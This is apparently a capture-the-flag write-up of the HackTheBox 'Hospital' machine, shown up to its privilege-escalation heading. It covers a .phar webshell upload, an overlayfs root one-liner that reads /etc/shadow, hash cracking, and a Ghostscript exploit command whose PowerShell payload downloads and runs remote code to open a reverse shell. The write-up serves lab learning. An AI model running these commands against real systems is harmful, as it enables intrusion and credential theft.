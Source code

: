 ```yaml
---
title: "Hsopital"
date: 2023-11-22T11:30:03+00:00
tags: ["web","windows","GhostScript"]
categories: ["hackthebox"]
author: "0x0Pwn"
image: "/HTB/Hospital.png"
comments: false
description: ""
---
```


## Room Information

- Room name: Hospital
- Difficulty level: Medium
- Room link: [https://app.hackthebox.com/machines/hospital](https://app.hackthebox.com/machines/hospital)

![Untitled](/HTB/Hospital.png)

## Tools Used

- Nmap
- crackmapexec
- msfvenom
- icacls
- smbserver
- smbclient
- searchsploit

## Port Scanning

Other room, other port scan.

```bash
map -p- -sS --open --min-rate 5000 -n -Pn -oG allPorts 10.10.11.241
```

![Untitled](/HTB/1.png)

```bash
nmap -p 22,53,88,135,139,389,443,445,464,593,636,1801,2103,2105,2107,2179,3268,3269,3389,5985,6404,6406,6407,6409,6612,6631,8080,9389,21177 -sCV --min-rate 5000-n -Pn -oN filtered 10.10.11.241
```

![Untitled](/HTB/2.png)

![Untitled](/HTB/3.png)

So the first thing I did as always is to check **smb** ports, ldap, the website and all the subdomains…

## Enumeration

On this machine there was no web page so the only data enumeration I could do was from the smb ports, but I got nothing because even though I was allowed to connect with an anonymous user, I had no permissions to list anything.

The first thing I did was to visit the website and add it to /etc/hosts. After that I could see the main website, which was hosted on port 443 (https) with two different subdomains; DC.hospital.htb and hospital.htb.

![Untitled](/HTB/4.png)

After seeing that these two subdomains led to the same website I tried the typical SQL injection, but nothing worked. So I started to do searches with wfuzz and gobuster of all kinds, and all the time without finding anything relevant.

I left all this aside and continued enumerating the rest of the ports, I tried everything; with the rdp port (without credentials I could not do anything), the rcp port (same as above), ldap and crackmapexec, all failed... 

So going down the nmap scan I saw that there was another web page hosted on port 8080 (http). 

![Untitled](/HTB/5.png)

I found myself in front of another login panel in which I tried again the typical SQL injection statements without result, but in this web there was something different, since it allowed to create an account and then log in.

![Untitled](/HTB/6.png)

I did that and when I logged in it opened a page where I could upload files (the web was programmed in php), so I started to try to upload php files, I tried everything; upload a malicious web.config file, bypass a malicious file in .php by uploading a malicious .htaccess, different double and even triple extensions, also tu inject php shell code to a photo… until when I tried a different php extension called .phar I found an exploit that worked and created a webshell in the browser.

![Untitled](/HTB/7.png)

![Untitled](/HTB/8.png)

## Exploiting

I search the version of kernel ande machine, and I found this exploit to escalate privileges:

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;  setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cat /etc/shadow")'
```

![Untitled](/HTB/9.png)

So now I could execute commands on behalf of the user rootasi so I started looking for relevant information, until I found in the /etc/passwd file users like drwilliams and root, then in /etc/shadow I found the hash of the user root and drwilliams. So the next thing I did was to crack the password of root and drwilliams using hascat:

```bash
hashcat -m 1800 -a 0 hash /usr/share/wordlists/rockyou.txt
```

Once I got the password for the drwilliams user I could connect via ssh, it was a linux machine, so I knew I had to connect to a windows one sooner or later.

![Untitled](/HTB/10.png)

![Untitled](/HTB/11.png)

I set out to search for information like crazy through the system, I became root with the following program -> https://github.com/synacktiv/CVE-2023-35001

![Untitled](/HTB/12.png)

After wasting some time with this I decided to try the credentials in the first web that I found hosted in port 443 as the last option, since it was an email web for doctors and the user that was in the machine was called drwilliams.... And it worked, now I had access to the following internal email website between the doctors:

![Untitled](/HTB/13.png)

So I started to see the emails he sent with the rest of the doctors and I discovered a new user, drbrown, who sent him an email talking about the fact that he had to finish the .eps project since he needed it to put it into production and view it with ScriptGhost.

![Untitled](/HTB/14.png)

I started searching drwilliams system for things related to this but I didn't find anything, so I searched on the internet and found a vulnerability for the ScriptGhost program which consisted of creating a malicious .eps. So that's what I did, I created the malicious script and emailed it to him to see what happened, I listened and got the reverse shell as drbrown on the Windows machine now.

The exploit code:

```bash
python3 CVE_2023_36664_exploit.py -g -p "IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.10.14.192 4444" -x eps
```

## Escalating Privileges